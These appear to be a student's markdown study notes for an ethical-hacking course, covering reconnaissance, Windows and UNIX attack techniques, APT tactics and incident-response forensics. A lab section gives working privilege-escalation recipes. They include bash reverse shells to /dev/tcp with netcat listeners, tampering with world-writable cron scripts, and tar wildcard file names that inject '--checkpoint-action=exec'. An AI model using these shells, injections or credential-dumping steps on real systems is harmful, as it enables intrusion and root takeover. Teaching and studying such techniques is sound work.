# INDICE
- [Footprinting](#footprinting)
- [Scanning](#scanning)
- [Enumeration](#enumeration)
- [Windows Hacking](#hacking-windows)
- [UNIX Hacking - Local](#hacking-unix---local-access)
- [UNIX Hacking - Remote](#hacking-unix---remote-access)
- [UNIX Hacking - Labs](#hacking-unix---labs)
- [Cyber Crimes and APTs](#cyber-crimes-and-apts)
- [Remote COnnectivity and VoIP Hacking](#remote-connectivity-and-voip-hacking)
- [Wireless](#wireless-hacking)
- [Hardware](#hacking-hardware)
- [Web Security](#web-security)
  - [SQL Injections](#sql-injections)
- [Mobile Hacking]()

<br>
<br>
<br>

---

<br>
<br>
<br>

# Footprinting
1. Determine the Scope
2. Get Proper Authorization
   - politics and funding
3. Publicly available information
   + Company web pages
   + Related Organizations
   + Location Details
   + Employee informations
   + Current events
   + Privacy or Security Policies
   + Archived Informations
   + Search engines and Data Relationships
4. WHOIS & DNS Enumeration
   + Domain names, IPs, port numbers - managed by ICANN and hierarchically stored the WHOIS/DNS servers
5. DNS interrogation
6. Network Reconnaissance

<br>
<br>

--- 

<br>  
<br>

# Scanning
1. Determining if the system is alive
   + ARP host discovery
   + ICMP host discovery
   + TCP/UDP host discovery
2. Determining which services are running or listening
   + port scanning -> nmap or other tools 
3. Detecting the operating system
   + Banner Grabbing
   + Scanning available ports: some ports are OS specific
   + TCP/IP Stack fingerprinting
     + check the TTL and other flags in the packets.
   + Making guess from available ports:
     + Windows: 135, 139, 445, 3389 RDP
     + UNIX: 22 (SSH), 111, 512-514 (berkeley remote services / rlogin), 2049 (NFS) high numbered ports (3277x) for RPCs
4. Processing and storing data


<br>
<br>

--- 

<br>  
<br>


# Enumeration
- Service Fingerprinting
  + Nmap, amap, ...
- Vulnerability Scanners
  + Nessus, OpenVAS, ...
- Basic banner grabbing 
  + manual or automatic
- Enumerating common network services
  + FTP - TCP 21
  + Telnet - TCP 23
  + SMTP - TCP 25
    + SMTP can be enumerated with Telnet, using these commands
      - VRFY confirms names of valid users
      - EXPN reveals the actual delivery addresses of aliases and mailing lists  
  + DNS - TCP/UDP 53
    + nslookup / dig (for BIND DNS)
    + dns enumerators
  + TFTP - TCP/UDP 69
    + ineherently insecure
  + Finger - TCP/UDP 79
    + Shows users on local or remote systems, if enabled - CARE FOR SOCIAL ENGINEERING
  + HTTP - TCP 80
    - Automatic tools -> Grendel Scan
   + MIcrosoft RPC Endpoint Mapper (MSRPC) - TCP 135
     + Remote Procedure Call Endpoint mapper service 
     + epdump - tool from Microsoft windows resource kit, shows services bound to IP addresses
   + NetBIOS Name Service - UDP 137
     + Name service in Microsoft, DNS-like
   + NetBIOS Session - TCP 139
     + Null sessions - the windows server message block (SMB) protocol hands out a wealth of information freely
   + SNMP - UDP 161
     +  SNMP is intended for network management and monitoring It provides inside information on net devices, software and systems
        +  ENUMERATION TOOLS AVAILABLE
  + BGP - TCP 179
    + can be used to enumerate all the networks of a particular corporation (AS-Number)
  + Windows Active Directory LDAP - TCP/UDP 389 / 3268
    + Contains all user accounts groups and other information on Windows domain controllers
  
### Summary

- Microsoft RPC endpoint mapper on TCP 135: epdump, rpcdump.py
- NetBIOS name service on UDP 137: net view, nltest, nbtstat, nbtscan, nmbscan
- NetBIOS session on TCP 139/445: net use, net view
- SNMP on UDP 161: snmputil, snmpget, snmpwalk
- BGP on TCP 179: telnet
- LDAP on TCP/UDP 389/3268: Active Directory Administration Tool
- UNIX RPC on TCP/UDP 111/32771: rpcinfo
- rwho and rusers
- SQL resolution service on UDP 1434: SQLPing
- Oracle TNS on TCP 1521/2483
- NFS on TCP/UDP 2049
- IPsec/IKE on UDP 500

<br>
<br>

--- 

<br>  
<br>

# Hacking Windows

- Unauthenticated attacks - Remote network exploits
  - 4 vectors:
    - Authentication Spoofing (Passwords)
      - Service to attack:
        > Server Message Block (SMB): TCP ports 139 and 445    
        > Microsoft Remote Procedure Call (MSRPC): TCP port 135   
        > Terminal Services: TCP port 3389
        > SQL: TCP port 1443 and UDP 1434
        > SharePoint and other Web Services: TCP 80 and 443
      - an attack to perform can be the password guessing from the command line (tools like THC-Hydra, Medusa, Venom, ...)
        - Correct Security and Audit Policies can avoid this
    - Network Services - EAVESDROPPING on Network Password Exchange
      - You can sniff LAN Manager (LM) Password challlenge-response hashes with tools like Cain [COUNTERED JUST BY USING NTLM HASH ]
      - Kerberos Sniffing - Cain has a MSKerb5-PreAuth packet sniffer
        > Kerberos 5 sends a preauthentication packet which contains a timestamp encrypted with a key derived from the user's password
    - MITM attacks: SMBRelay and SMBProxy pass authentication hashes along, to get authenticated access to the server
      - SMB Credential Reflection Attack
      - CSMB Credential Forwarding Attack
      - This is possibile using Cain, that can also sniff RDP sessions breaking their encryption
    - Pass the Hash Attacks
    - Pass the Ticket Attack for Kerberos: Dump Kerberos RAM Tickets and Re-use them
    - Client software Vulnerabilities
    - Device Drivers

- Authenticated attacks
  - Priviledge Escalation: search for vulnerable services runned as SYSTEM
    - After obtaining administrator priviledges, the attacker often wants to penetrate the network, so he just want to obtain passwords and disables firewalls
    - Just obtain password hashes using Cain in the Cracker Tab, pwdump2 or OPHCRACK 
    - the alternative is to boot the system in an alternative OS to unlock the SAM and copy it.
  - Password Cracking - See EHE Notes
  - Dumping Cached Passwords
    - Local Security Authority (LSA) Secrets - CAN BE DUMPED WITH CAIN LSA DUMPER
      - Contains unencrypted logon credentials for external systems. Available uunder the Registry subkey `HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets`
      - Encrypted only when the machine is off, but decrypted and retained in memory after login
      - Contains: 
        - Service Account Passwords in plainteext
        - Cached password hashes of the last ten users to log on to a machine
        - FTP and web-user plaintext passwords
        - ...
  - Remote Control and BackDoors
    - netcat
    - psexec (from windows CLI)
    - fpipe for port redirection

  - Covering Tracks:
    - Disable Auditind - auditpol

- Countermeasures
  - When a sistem get compromised with admin priviledges, it should get completely reinstalled
    - If you want to clean it, cover these areas: FILES, REGISTRY KEYS, PROCESSES, NETWORK PORTS
  - Care for suspicious files (nc.exe)
  - Suspicious registry entries (use `reg delete`): 
    - HKEY_USERS\.DEFAULT\Software\ORL\WINVNC3
    - HKEY_LOCAL_MACHINE\SOFTWARE\Net Solutions\NetBus Server
  - LEAST PRIVILEDGE

<br>
<br>

--- 

<br>  
<br>

# Hacking UNIX - Local Access
## 1. ***From Local To root*** -> Priviledge Escalation
   + Done by attacking the system (weak passwords, kernel flows) or exploiting system misconfigurations

<br>
<br>

### Weak Passwords
users are lazy, and password requirements help only marginally (P@ssword1 follows requirements, but can be cracked in less than 10 seconds)

### /etc/passwd:

oracle:x:1021:1020:Oracle user:/data/network/oracle:/bin/bash
  1    2  3     4       5             6                 7

1. Username
2. Password stub, real password is stored in /etc/shadow
3. user ID
4. Group ID
5. User info such as full name, phone, ...
6. absolute path to the home directory
7. absolute path of default shell


### /etc/shadow:

vivek:$1$fnfffc$pGteyHdicpGOfffXX4ow#5:13064:0:99999:7:::
  1                 2                     3  4   5   6 

1. username
2. hashed password in Modular Crypt Format (MCF): $hash_id$salt$hash$
3. last password change
4. number of days until password change is allowed
5. number of days before password change is required
6. number of days before password expires to warn user
7. number of days after password expiration after which account is disabled
8. Expiration date of account (days since epoch)


<br>
<br>

### Symlink: 
simbolic links, which are pointers from one file to another.
  - These are completely transparent to applications and users.
  - Can be exploited by attackers to trick a program into referencing other files during execution
  - Creating symlinks to protected files does not require permissions...
    - > ln -s /etc/shadow ./link_to_shadow allowed as unpriviledged user..

- SECURE code practices are the best countermeasures:
  - O_EXCL|O_CREAT when using open() syscall
  - Beware of  reading and writing from publicly accessible directories
  - File system mount options 

<br>
<br>

### Race Conditions:
- generally many programs elevate priviledges only temporarily
  - there is a short time windows for attacker to exploit
- An attacker exploiting a program in this windows _wins the race_
- One common example is ***signal-handling race conditions***

### Signal handling race conditions:
signals are a unix mechanism used to notify processes about particular events

- allow handlyng such events asynchronously
- Signals alter the execution flow of running processes
- Attacker can exploit signals to halt processes while they have elevated priviledges
  - or in general try to alter the program flow to make it easier to exploit


<br>
<br>

### Core file manipulation
core files are a dump of the address space of a process created when it exits unexpectedly

- invaluable tool to debug programs
- if not managed properly, can expose sensitive information to attackers (including password hashes)
- web application crashes can generate core dumps in root directory
  - accessible through: www.vulnerablesite.com/core

<br>
<br>

### Shared Libraries
shared libraries, DLL in Windows, allow multiple programs to call routines from a common library upon execution.
- allow to save memory and makes it easier to mantain code
- also makes up a great target for attackers

[here](https://linux.die.net/man/1/ld) linux saves the libraries

<br>
<br>

### kernel flows

unix systems are highly comnplex and robust. However, the kernel is responsible for enforcing the overall system's security model.
Attacker can easily exploit Kernel flaws to obtain complete control of the system

<br>
<br>

### System misconfigurations
### UNIX PERMISSIONS
file permissions are specified by 3 access classes: user, group, others.

for each of these classes, 3 access modes can be set: read (r), write (w), execute (x)

there are also 3 special modes, valid for all classes:
  - Set user ID (SUID): when the file is executed, the user takes the effective USERID of the owner of the file
    - if the file is owned by root -> the user takes root priviledges
  - Set group ID (SGID)
  - Sticky

Many SUID programs create temp files -> $ stat /tmp
to see who uses tmp `strings /bin * | grep tmp`

<br>
<br>

### world writable files
files that can be modified by anyone
- generally used for convenience/lazyness
- can and should be avoiuded most of the time

## 2. ***Remaining Persistent*** -> Advanced Persistent Threats (APT)
   1. Trojans
   2. Rootkits
   3. Log Cleaners

### APT - Trojans
malware hidden in otherwise normal files
- once an attacker has root, he can attach a trojan to any file/program in the system
- Trojans can easily open backdoors that allow remote connections 

### APT - Sniffers
There is lots of interesting and confidential information in network traffic

- Sniffers allow attackers to "sniff" all network traffic that goes throug the same local network segment.
- Attackers can get a good understanding of potential target services while remaining completely passive.
- If traffic is not properly secured, attackers can also obtain critical informations such as passwords and confidential documents

### APT - Log Cleaning
System logs contain informations regarding all activities going on in the system, INCLUDING the attacker's activities.

Log cleaners are part of virtually every rootkit, allowing attackers to delete their traces from your system. Cleaners can also intercept programs that send log files to remote server.

### APT - Kernel Rootkits
The worst type of rootkits, used to compromise the kernel of the system itself.

Allows attackers to compromise all system programs, without modifying any of them. These rootkits can intercept system calls and change them into the ones they want, even by just modifying the system call table.

They can also corrupt system call handlers, to point to attacker's system call table.


<br>
<br>

--- 

<br>
<br>

# Hacking Unix - Remote Access
## 1. Unix systems and hacking tools
Unix is used by the mayority of servers around the globe. There are many types of Linux distributions and the source code is available. Furthermore, it is easy to modify and to develop a program for it.

Being a widespread system, has as a consequence the higly attractiveness of the system for attackers.

Linux has 2 types of access: user and **ROOT** access

The attacker performs the following steps to identify linux distro, open ports, RPC servers and the version of running applications:
1. Footprinting - Gather informations and profiling the target
  + whois, nslookup, dig, FOCA, MALTEGO, ...\
2. Scanning - identify entry points for the intrusion
  + nmap, netcat, tcpdump, nsdlookup, Nessus
3. Enumeration - probe the identified services to fully know weaknesses. This involves active connections to systems and directed queries.
  + dnsenum, rpcinfo, smbclient
4. Vulnerability Mapping - Map attributes (listening services, version of running servers) to potential security holes:
  - Vulnerability info databases  online
  - Use Public exploit codes or write your own
  - Use atomated vulnerability scanning tools

### Metasploit Framework
The metasploit framework provides the infrastructure, content and tools to perform penetration tests and extensive security audits. It comprises reconnaissance, exploit development, payload packaging and delivery of exploits to vulnerable targets.



**Module**: A standalone piece of code or software that extends the funcionality of the Metaploit Framework. A module can be an exploit, escalation, scanner or information gathering unit of code that interfaces with the framework to perform some operations.

**Session**: a session is a connection between a target and the machine running Metasploit. Sessions allow for commands to be sent to and executed by the target machine.

#### Metasploit Modules 

**Exploits**: Exploits are the code and commands that Metasploit uses to gain access.

**Payloads**: Payloads are what are sent with the exploit to provide the attack a mechanism to interact with the exploited system.

**Auxiliary**: The Auxiliary modules provide many useful tools including wireless attacks, denial of service, reconnaissance
scanners, and SIP VoIP attacks.

**NOPS**: No Operation. NOPs keep the payload size consistent

**Post-Exploitation**: can be run on compromised targets to gather evidence, pivot deeper into a target network, ecc...

**Encoders**: are used to successfully remove unwanted bytes

#### Metasploit INterfaces

Metasploit has multiple interfaces including:
- msfconsole - an interactive command-line like interface
- msfcli - a literal Linux command line interface
- Armitage - a GUI-based third partyt application
- msfweb - browser based interface

#### Metasploit Console
has a simple interface. Allows users to search for modules, configure those modules and execute them against specified targets with chosen payloads.

Provides management interface for opened sessions, network redirection and data collection.

#### Starting metasploit
1. start the PostgreSQL database for Metasploit: `service postgresql start`
2. launch metasploit framework console: `mfsconsole` 

Core commands:
   + msf > show exploits
   + msf > show payloads
   + msf > search Variable
   + msf > show options
   + msf > set Variable
   + msf > info
   + msf > exploit

Sample operation:
  + Open Metasploit Console
  + Select Exploit
  + Set Target
  + Select Payload
  + Set Options
  + exploit

## 2. Exploit and gain remote access to unix

In Unix attacks, attackers follow a logical progression:
1. gain remote access via the network - Tipically exploiting a vulnerability in a listening service
2. Have a Command shell or login to the system - Local attacks are also called Priviledge Escalation Attacks

### Primary methods to gain remote access
#### 1. exploit a listening service
if a service is not listening, it cannot be broken remotely. Services that allow interactive logins can be exploited: telnet, ftp, rlogin, ssh, others...

BIND is the most popular DNS server, and it has many vulnerabilities

**How To Exploit**:
- Brute force attacks:
  + Service that can be bruteforced: telnet, rlogin/rsh, ssh, SNMP, LDAP, POP/IMAP, HTTP/HTTPS, CVS, SVN, Postgres, MySQL, Oracle
  + using list of user accounts obtained during enumeration phase: Finger, rusers, sendmail, ...
  + obtaining access to accounts with weak or no passwords
  + some automated tools: hydra or medusa
- Data Driven attacks: sending data to an active service causing unintended or undesirable results
  + buffer overflow: a user or process attempts to place more data into a buffer than was previously allocated (associated with specific C functions)
    + normally cause a segmentation violation, but attackers can exploit it in the target system to execute a malicious code of their choosing
    + different ways to attack: jump to a function, jump to the buffer and execute the inserted code, return to libc
    + Returned Oriented Programming (ROP): generalization of return-to-libc attacks. Instead of returning to system functions return to existing code that is already in the program's addressable space. Create arbitrary code by chaining short code sequences (to make a shellcode for example)
    + Some countermeasures: Stack smashing and execution Protection, ASLR, 
  + Format String attacks: exploit vulnerabilities in the printf from a buffer, when it uses format strings such as %d, %s, ... There are some strings that can help printing addresses or to print in stack (%n)
  + Input validation attacks: possible when the server does not properly parse input before passing it to further processing.
    + Telnet daemon passes syntactically incorrect input to the login program -> an attacker could bypass authentication without being prompted for a password.
    + These attacks work when user-supplied data is not tested and cleaned before execution.
      + Two approaches to perform input validation can be blacklist or whitelist.
  + Integer Overflow and integer sign attacks: an integer variable can only handle values up to a maximum size, such as 32767 for 16-bit data. if you input a larger number the computer interprets it as a negative one.
    + Vulnerable programs can be tricked into accepting large amount of data, bypassing the data validation, and this can allow a buffer overflow.

#### 2. route through a UNIX System (e.g. unix-based firewall)

Unix systems providing security between two networks (Firewalls). Source routing is a technique whereby the sender of a packet can specify the route that a packet should take through the network.

Attackers send source-routing packets through the firewall (if source routing is enabled) to internal systems to circunmvent UNIX firewalls

#### 3. User-initiated remote execution (e.g. trojan, phishing)

Trick a user into executing code, surfing into a website or launching malicious e-mail attachments

#### 4. Promiscuous Mode attacks (e.g. tcpdump vulnerability)

promiscuous mode refers to the special mode of Network Interface Cards that allows a NIC to receive all traffic on the network even if it's not addressed to its NIC.

A carefully crafted packet to hack the sniffer or driver. The sniffing software itself has vulnerabilities and an attacker can inject code through the sniffer.

### Techniques to gain Shell Access

- Remote Command Execution:
  - exploit interactive shell access to remotely login into a UNIX server (telnet, rlogin or SSH)
  - exploit non-interactive services to execute commands (RSH, SSH or Rexec)
- Reverse telnet and Back Channel
  - back channel: the communication channel originates from the target system (as opposed to exploiting remote login services from the attacking system)
  - reverse telnet uses telnet services to create a back channel from the target system to the attacker's system

**Common types of Remote Attacks**
- FTP: ftp servers sometimes allow anonymous users to upload files. Misconfiguration may allow directory traversal and access to sensitive files. It's ineherently insecure.
- Sendfmail: it's a mail transfer agent that is used on many UNIX systems. It has a long history of many vulnerabilities. If misconfigured allows spammers to send junk mail trough the servers
- Remote Procedure Call services: numerous stock versions of UNIX have many RPC services enabled by default. RPC services are complex and generally run with root priviledges \[ATTENTION !!\] Good target to exploit to obtain remote root shells.
- NFS (network file system): allows transparent acecss to files and directories of remote systems as if they were stored locally. Many buffer overflow related to `mountd` have been discovered
- DNS: one of the few services that is almost always required and running on an organization's Internet perimeter network. The most common implementation of DNS for UNIX is the Berkeley Internet Name Domain (BIND) PAckage
  - BIND: contains numerous buffer overflows vulnerabilities, obtained by malformed responses to DNS queries. PRovides attackers some degree of remote control over the server, although not a true shell
  - DNS Cache Poisoning: being able to change DNS records in order to take control over the network traffic 
- X Insecurities: The X Window System allows many programs to sharea single graphical display. X Clients can captire the keystrokes of the console users. Capture windows for display elsewhere. 
  - X snooping tools: attacker can monitor and also send keystrokes to any windows
    - **xscan** to scan the entire subnet looking for an open X server and log all keystrokes; 
    - **xwatchwin** even lets you see the windows users have open 
- SSH: widely used as a secure alternative to telnet, but there are integer overflows and other problems in some SSH packages which can be exploited, granting remote root access
- OpenSSL Overflow Attacks: open source implementation of SSL and present in numerous versions of UNIX. It had a famous buffer overflow vulnerability exploited by the Slapper Worm; furthermore, it suffers of improper input validation
- Apache Attacks: prevalent web server, higly complex and configurable. It has vulnerabilities like any program.


<br>
<br>

--- 

<br>
<br>

# Hacking Unix - Labs
## Lateral Movement
The definition is: moving from an user to another. It can be done by exploiting bugs, design flaws, configuration oversights and users' mistakes. THe same priciples can be used to gain access to other non-priviledged users.

### Exploiting SetUID and SetGID 
Abusing setuid/setgid programs may allow PE if:
  + Can (be forced to) read/write files → may leak sensitive data
    + less, more, vi, cat, strings, ... Are just some examples of programs which can be used to leak sensitive data
  + Can be forced to print errors insecurely → may leak sensitive data
    + Programs which can be used to print the content of some files (even the program to set the date!! (try `./date -f /etc/shadow`))
  + Can be forced to execute code that we control
    + execute other programs that we control -> for examples programs like nmap, hping3, vim, gawk, less, more, find, docker, distcc, make, ...
    + load shared objects that we control -> we can create fake libraries or objects and substitute them to the original ones to control the execution of the program
    + vulnerable to some other code injection (e.g., buffer overflow)

## Exploiting Cronjobs

Cron is a task scheduler on Unix-like systems. Allows defining commands to execute periodically. Schedules specified in chron expressions can be listed through:
> crontab -l
>

Cron jobs often do maintenance for services (e.g., clean up), often running root. If we can tamper with what those cron jobs are executing, we can execute commands as Root. 3 methods:

### 1. Writable cron scripts
overwrite.sh is executed every minute and it's **world-writable**.

Write into the script to create a bind or reverse shell:
  1. create a listening server with netcat: `nc -lp 8888`
  2. Overwrite overwrite.sh with: `bash -i >& /dev/tcp/127.0.0.1/8888 0>&1`
  3. Wait for the cron job to be executed

### 2. Insecure crontab PATH
_overwrite.sh_ is executed using its relative path => /bin/sh will search it in each directory in the PATH env variable.

Can we write in any of the directories in PATH coming before the location of overwrite.sh? if yes:
  1. Crete a listening server with netcat on the local machine: `nc -lp 7777`
  2. Create a file named overwrite.sh in /home/user containing:
```bash
#!/bin/sh
bash -i >& /dev/tcp/127.0.0.1/7777 0>&1
```
      and make it executable
  3. Wait for the cronjob to be executed

### 3. Insecure scripts
the * wildcard in cron jobs is expanded by the shell and passed to the command (tar, for example).
checking on [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) we learn that tar can execute external commands as  part of a checkpoint feature:
1. Create a listening server with netcat on the local machine: `nc -lp 9999`
2. Create an executable script, named  myshell.sh, in the user directory 
```bash
#!/bin/sh
bash -i >& /dev/tcp/127.0.0.1/9999 0>&1
```
3. Create fake files in the user home (where the * is expanded), to trick tar:
```bash
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```
4. Wait for the cron job to be executed

What should happen: After Wildcard expansion, tar has been executed as: 
`tar czf /tmp/backup.tar.gz --checkpoint=1 --checkpoint-action=exec=myshell.sh myshell.sh tools`

This is a general pattern (not a tar vuln, not just for cronjobs) and it’s related to insecure use of wildcards
  - A tool uses unquoted wildcards or unsafe input expansion
  - Attacker places specially crafted files with names that mimic command-line option
  - During execution, the file name is interpreted as a real option, not data
If the process runs with elevated privileges (like root in cronjobs), it can lead to code execution or privilege escalation

## Password and Keys
Having an initial foothold on a system means that we can gather more details:
- **Configuratoion Files**: if we got the foothold by exploiting a server, we should be impersonating the user used by the server. Configuration files for the applications might contain passwords (e.g. database passwords).
  - In general, if the exploited servers have users, try to gather their password, users reuse their passwords, so: enumerate local machine users and then try passwords gathered.
- **Shell History**: if the service user has been used for interactive sessions (or if we have moved laterally to an interactive user) the Shell history might reveal useful informations to perform PE like leaked passwords or common operations executed, which we can use to gather more informations.
- **Other Keys**: When elevating priviledges or moving laterally, we might want to gather authentication material like keys to log into other systems and gather more informations (examples: SSH keys, GPG keys)
  -  cordumps: a privileged process crashes and generates a CORE DUMP. it contains a snapshot of the process memory, including ***environment variables, stack and heap contents, open file descriptors, plaintext credentials or sensitive data***. IF the dump file is stored in an attacker-accessible location, a low-priviledged attacker can read it and extract useful info.


## LinPEAS - Linux Privilege Escalation Awesome Script

A script that searches for possible paths to escalate priviledges on Unix (not just Linux) hosts:
  - checks are explained on [hacktricks](book.hacktricks.xyz)

This script is very noisy and easy to detect!!

### LES - Linux Exploit Suggester
Assist in detecting security deficiencies for given Linux kernel/Linux-based machine
- Assess kernel exposures on publicly known exploits
  - for each exploit exposure is calculated: Highly probable/probable/less probable/improbable
- Verify state of kernel hardening security measures


<br>
<br>

--- 

<br>
<br>

# Cyber Crimes and APTs

APT:
+ Advanced: uses sophisticated methonds, such as zero-day exploits and custom exploits
+ Persistent: Attacker returns to the target system over and over again. He has a Long-Term Goal, and works to achieve these goals without detection
+ Threat: organized, funded and motivated.

Non-APT attacks are brief (smash and grab), and are againset target of opportunity. APTs are used to steal large amount of data from a corporation over a long period of time.

2 types of APT:
- Crime: steal PII, financial information, corporate data, ecc... just to use it for fraud
- Espionage - industry or state-sponsored: Gather intellectual property or trade secrets to gain competitive advantage

APT goal is to gain and mantain access to the information. APT Attacks don't destroy systems, don't interrupt normal operations and try to stay hidden and keep the stolen data. Often APTs start from spear phishing.

## Hiding APT Techniques

- Cut-outs: attacks are routed throught oither compromised computers to conceal attacker's location
- Dropper Delivery Service: "pay per install" or "Leased" campaigns

## Other APT Techniques
- SQL Injection to addd malware to websites
- Infected USB stick "drops"
- Infected Hardware or Software
- Social Engineering, impersonating users, etc
- Less often: compromised human insider

## APT Phases

+ Targeting: Collect info about the target and test (vuln scanning, social engineering)
+ Access/compromise: Gain access into the system, install malwares, collect credentials, etc 
+ Reconnaissance: enumerate network and systems
+ Lateral Movement: Move through network to other hosts
+ Data collection and exfiltration: Establish collection points and exfiltrate via proxy
+ Administration and Maintenance: maintain access over time

## Detecting APTs
- Email Logs
- Lateral movement may leave artifacts from misuse of access credentials or identities
- Exfiltration may leave traces in firewalls and IDS logs, Data loss prevention logs, application history logs, web server logs 

To detect APTs it's important to search for artifacts of APT that can be found in RAM or Hard disk image

## APT Tools and Techniques

### Gh0st Attack
GhostRAT used in the "Ghostnet" Attacks (2008-2010). Targeted the Dalai Lama and other Tibetan enterprises.




Summary of Gh0st Attack 
-  Phishing email 
-  Backdoor placed when malicious link clicked 
-  Backdoor hides itself to survive a reboot 
-  Connection to C&C 
-  Check internal domain, create accounts, use Terminal Server to hop to other hosts (Event Logs) 
-  Add/modify some files (diff \System32) 
-  Look for documents and zip for exfiltration 
-  Create a 2nd backdoor using netcat 
-  Create user account and execute FTP (Windows Security Event Log) 
-  Schedule a new job to clean logs everyday


## Informations about APT presence - Indicators of Compromise
Malwares want to survive reboot. To do this, they use several mechanisms, including:
   - Using various "Run" Registry keys
   - Creating a service
   - Hooking into an existing service
   - Using a scheduled task
   - Disguising communications as valid traffic
   - Overwriting the master boot record
   - Overwriting the system's BIOS

## Incident Response

1. Informations have to be searched in this places based upon the order of volatility of data
  - Memory
  - Page or swap File
  - Running Process Information
  - Network Data such as listening ports or existing connections to other systems
  - System Registry (if applicable)
  - System or application log file
  - Forensic image of disks
  - Backup Media

## Forensic 
### Memory Dump Analysis
Crucial for APT analysis because many APT methods use process injection or obfuscation. Analyzing RAM data guarantees that the data are unencrypted. The tool for this task is **AccessData FTK Imager**.

### Pagefile/Swapfile Analysis
Virtual Memory on pagefile.sys or Hiberfil.sys. Preferable to collect a forensic disk image of a compromised or suspicious computer. The memory snapshot analysis tools are:
  - HBGary FDPro
  - Mandiant Memoryze
  - Volatility Framework - Open source!
  

### Memory Analysis

Using volatility Framework Tool (open source) to analyze memory. In particular this analysis search for APT signals in processes, network connections, DLLS from suspicious processes, `strings` use on the DLL.


### File/Process Capture

Master File Table (MFT) contains metadata (filename, timestamp, file size, ...). This file can be copied and analyzed and gives a lot of useful informations about files on the System. Both the MFT and the pagefile.sys can be analyzed at the time around which the infection started to understand where the malware can be.

Network/process/registry can be analized through netstat to find connections and processes PID

Some other things that have to be checked for any changes are:
- Host file
- CurrPorts: tool for investigating active network sessions _(sysinternals tool)_
- Process Explorer: analyze a process, its DLL references and cmd.exe executions. _(sysinternals tool)_
- Process Monitor: lookup process-kernel interactions _(sysinternals tool)_
- VMMap: show virtual/physical memory map, check DLL strings _(sysinternals tool)_
- DNS Cache: find other possible infection hosts
- Registry query: `reg query` to check for suspicious Registry entry of Run Keys
- Scheduled tasks: use `at` to find and analyze scheduled tasks
- Event Logs: `pslogist` to retrieve System and Security event logs
- Prefetch Directory: last 128 unique programs executed **(a directory inside Windows folder)**
- Interesting files to collect: ntuser.dat (user's profile data), index.dat (index of requested URLs), .rdp files (rdp sessions info), .bmc files (cached images of RDC client), antivirus log files (virus alerts)
  - Analyzing RDP files to obtain info on server accessed, login info, ...,  in XML 
  - Analyzing BMC files: cached bitmap image for performance -> **BMC Viewer** to find attacker's access to applications, files, network, credentials
- investigating System 32 Directory for anomalies: `diff` system 32 directory with the cached one to find files changed since installation (.dll, .bat, .rar, .txt)
- Antivius logs: check configurations that exclude detection of certain PUP (Potentially Unwanted Programs)
- Network: Analyze traffic between compromised host to C&C server -> other targeted hosts -> signatures for IDS


## APT method of attack
1. Spear Phishing Email
2. User Clicks link; opens an application and redirects to a hidden address
3. Hidden address is a dropsite; detect browser vulns and drops a trojan downloader
4. the downloader sends a base64-encoded instruction to a different dropsite, which installs a trojan backdoor
